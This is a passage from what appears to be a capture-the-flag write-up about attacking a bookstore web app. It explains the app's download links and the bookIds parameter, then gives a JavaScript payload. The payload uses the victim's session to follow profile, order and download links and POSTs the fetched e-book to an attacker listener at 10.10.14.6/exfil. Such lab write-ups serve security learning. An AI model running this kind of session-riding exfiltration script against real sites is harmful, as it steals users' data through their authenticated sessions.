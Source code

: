The CSS doesn’t load, but that’s ok. The interesting part is the “Download
e-book” link, which points to `/download/7?bookIds=9`. Some orders have more
than one book, and look like this:

![image-20240116151408821](../img/image-20240116151408821.png)

The important difference here is the “Download everything link”, which leads
to `/download/2?bookIds=18&bookIds=11`. It seems that the `bookIds` parameter
can be a single string or (when multiple are specified) an array (I go over
why this works in Beyond Root.

#### Download Single

I’ll try to download a file by updating my script to find the link again to
get a single download link and return what it returns. I’ve updated the
response to be `resp3.blob()` rather than `.text()` because I expect an e-book
to be a binary format:

    
    
    fetch('/profile', {credentials: "include"})
    .then((resp) => resp.text())
    .then((resptext) => {
      var match = resptext.match(/\/order\/\d+/);
      fetch(match, {credentials: "include"})
      .then((resp2) => resp2.text())
      .then((resptext2) => {
        var match2 = resptext2.match(/\/download\/\d+\?bookIds=\d+/);
        fetch(match2, {credentials: "include"})
        .then((resp3) => resp3.blob())
        .then((data) => {
          fetch("http://10.10.14.6/exfil", {
            method: "POST",
            mode: "no-cors",
            body: data
          });
        });
      });
    });
    